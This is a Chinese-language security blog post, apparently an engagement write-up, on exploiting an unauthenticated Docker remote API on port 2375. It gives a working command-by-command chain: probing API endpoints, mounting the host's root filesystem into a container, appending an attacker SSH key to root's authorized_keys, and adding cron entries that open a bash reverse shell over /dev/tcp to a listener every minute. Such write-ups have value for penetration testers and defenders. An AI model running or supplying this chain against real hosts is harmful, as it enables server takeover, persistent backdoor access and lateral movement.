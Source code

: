 ```yaml
---
title: docker未授权致RCE
date: 2025-02-04
tags:
  - SEC
draft: false
images: ['/static/images/blog/2025/docker-unauthorized/Pasted%20image%2020250409140309.png']
authors: ['default']
---
```


- 参考谢公子：[Site Unreachable](https://cloud.tencent.com/developer/article/2321247)
- 在实战中遇到了记一下，最终可以直接 ssh 登录 + 反弹 shell 到内网其他主机

## 测试过程

### docker 未授权

nmap 扫描发现 2375 端口开放 docker 服务，测试以下 URL 发现 docker 未授权：

```
http://x.x.x.x:2375/version
http://x.x.x.x:2375/images
http://x.x.x.x:2375/info
```

### docker 远程命令

可以在本地使用命令远程管理 docker：

```bash
docker -H tcp://<IP>:2375 images -a
docker -H tcp://<IP>:2375 ps
docker -H tcp://<IP>:2375 exec -it e7d97caf249d /bin/bash
```

### 获取宿主机权限

容器里面操作没啥意义，关键是要获取宿主机（目标服务器）的权限。

启动一个未开启的容器，然后将**宿主机的磁盘挂载到容器中**：

```bash
docker -H tcp://<IP>:2375 run -it -v /:/opt b76f96a98a27 /bin/bash
```

- `-v /:/opt`：-v 选项的作用是选择挂载卷，此处将宿主机的整个文件系统 `/` 挂载到容器内的 `/opt` 目录下。

**因此，我们可以通过容器内 `/opt` 目录，管理宿主机文件系统。**

### 写入SSH公钥

管理文件系统并不算真正获取权限，但是也快了。

先在本地生成一对 SSH 的公私钥对，然后直接 echo 把 SSH 公钥写入服务器的公钥文件：

```bash
# 本地生成公私钥对
ssh-keygen -t rsa -b 2048 -f ~/.ssh/id_rsa
# 默认保存在 ~/.ssh , 私钥是 id_rsa , 公钥是 id_rsa.pub

# 修改服务器文件：进入docker容器挂的宿主机文件系统
cd /opt/root/.ssh/
# echo 写入公钥（id_rsa.pub的内容）
echo "ssh-rsa jdiofjsdoijfosjdsjfosdjfo..." >> authorized_keys
```

- 没有.ssh目录或者 authorized_keys 文件就自己创建一个

服务器写入公钥之后，本地可以直接通过**指定私钥文件**来登录服务器：

```bash
ssh -i ~/.ssh/id_rsa root@<IP>
```

### 持久化

最后做一步权限维持，给宿主机设置**定时任务**。

将反弹 shell 的命令写入 `/var/spool/cron/root` 文件中：

- 也可能是 `/var/spool/cron/crontab/root`

```bash
cd /opt/var/spool/cron
echo "*/1  *  *  *  *   /bin/bash -i>&/dev/tcp/<IPonListening>/4444 0>&1" >> root
```

- 含义是每隔一分钟，反弹一次 shell

假如服务器默认 shell 是 zsh，需要把反弹 shell 命令改成：

```bash
echo "*/1  *  *  *  *   bash -c 'bash -i >& /dev/tcp/<IPonListening>/10341 0>&1'" >> root
```

注意，目标服务器可能出不了网，只能反弹 shell 到内网，需要有一台内网机器，可以之后再由内网机器配置转发到外网。

![](/static/images/blog/2025/docker-unauthorized/Pasted%20image%2020250409140309.png)
